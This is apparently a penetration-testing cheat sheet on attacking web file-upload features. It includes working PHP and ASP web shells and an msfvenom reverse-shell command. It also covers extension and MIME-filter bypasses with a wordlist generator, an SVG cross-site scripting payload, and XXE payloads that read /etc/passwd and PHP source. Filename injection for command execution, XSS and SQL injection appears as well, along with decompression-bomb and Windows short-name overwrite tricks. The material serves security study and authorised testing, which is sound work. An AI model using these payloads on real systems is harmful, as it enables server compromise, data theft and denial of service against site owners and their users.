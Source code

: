 # Types of attacks
## File metadata attacks
Path and filename can trick an application into writing a file to an unexpected location
## File contents attack 
Attacker may be able to upload unexpected content
## File size attack
Attacker may upload a large file to perform a Denial-Of-Service attack,

# Arbitrary File Upload 
* Need to determine what language is being used on the server-side
	* Visit `/index.<extension>` try various extensions such as `php`, `asp` `aspx`
	* Use [Wappalyser](https://www.wappalyzer.com/)

### Common WebShells
* [PHPbash](https://github.com/Arrexel/phpbash)
* `/usr/share/SecLists/Web-Shells`
* Easy webshell:
```php
<?php system($_REQUEST['cmd']); ?>
```
in the URL:
`?cmd=id`

* .NET applications
```asp
<% eval request('cmd') %>
```
Custom Reverse Shells 
```bash
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```

## Client Side Validation 
### Burp
* Use Burp to look at a normal request message 
* Modify file names and content type if needed.
### Disabling Front-end validation
* Look in browsers page inspector `Ctrl+Shift+C`
* Highlight the file input line
```html
<input type="file" name="uploadFile" id="uploadFile" onchange="checkFile(this)" accept=".jpg,.jpeg,.png">
```
Look for the onchange fuction
```javascript
function checkFile(File) {
...SNIP...
    if (extension !== 'jpg' && extension !== 'jpeg' && extension !== 'png') {
        $('#error_message').text("Only images are allowed!");
        File.form.reset();
        $("#submit").attr("disabled", true);
    ...SNIP...
    }
}
```
Remove the function from the html
`onchange=""` and remove the accept tag to
* Once uploaded use page inspector to load the source of the image
## Blacklist Filters
1. Testing against a blacklist of types 
2. testing against a whitelist of types

### Fuzzing Extensions
PayloadAllTheThings has lists of extensions for PHP and .NET
SECLists Common WebExtensions

Fuzz on Burp
## Whitelist Filters
* Try double extensions
	* `filename.jpg.php`
* Reverse double extensions 
	* `filename.php.jpg`
* Character Injection 
	* - `%20`
	- `%0a`
	- `%00`
	- `%0d0a`
	- `/`
	- `.\`
	- `.`
	- `…`
	- `:`
		- `shell.php%00.jpg`
- Bash script to generate all examples:
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```
## Type Filters
* Validating the `Content-Type` header and `File Content`
* You can fuzz [content type headers](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)
### MIME-Type
* Multipurpose Internet Mail Extensions
* Determines file type through its general format and bytes structure
* Looking at a files [magic bytes](https://opensource.apple.com/source/file/file-23/file/magic/magic.mime)
* PHP uses the `mime_content_type()`
* Add the mime at the start of the file 
```php
GIF8
<?php ?>
```

## Limited File Uploads
Certain file types such as `SVG, HTML, XML` may allow us to introduce new vulnerabilities to a web page

### XSS
May be able to introduce a stored XSS vulnerability.
Can upload a HTML file with JavaScript
XSS can be carried with SVG images along with several other attacks:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```
### XXE
Leak file information 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
Use XXE to read source code in PHP
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```
### DoS
* Decompression Bomb
	* Nested archives that contain petabytes of data that when unzipped crash the server
* Pixel Flood
	* Make a JPG image with any file size and then modify the compression data to have a size of 0xffff x 0xffff which is 4 giga pixels.
## Other attacks
### injections in file name
* Name a file `file$(whoami).jpg` or ```file`whoami`.jpg``` or `file.jpg||whoami` this would make the file name then execute `whoami` and as such be a RCE
* Can also use a XSS payload. Filename: `<script>alert(window.origin);</script>`
* Can inject SQL query in a file name. Filename: `file';select+sleep(5); --.jpg`

### Upload Directory Disclosure
* Utilise fuzzing to find where the files are located
* Force error messages:
	* Upload a filename that already exists
		* may disclose file path

### Windows specific:
* Use reserved characters `|, < , >, * , ?` If the web application does not sanitise these they may cause errors or disclose more information.
* Use reserved names `CON, COM, LPT1, NUL`
* [Overwrite existing files](https://en.wikipedia.org/wiki/8.3_filename)
* For example, to refer to a file called (`hackthebox.txt`) we can use (`HAC~1.TXT`) or (`HAC~2.TXT`), where the digit represents the order of the matching files that start with (`HAC`). As Windows still supports this convention, we can write a file called (e.g. `WEB~.CONF`) to overwrite the `web.conf` file. Similarly, we may write a file that replaces sensitive system files. This attack can lead to several outcomes, like causing information disclosure through errors, causing a DoS on the back-end server, or even accessing private files.
* 

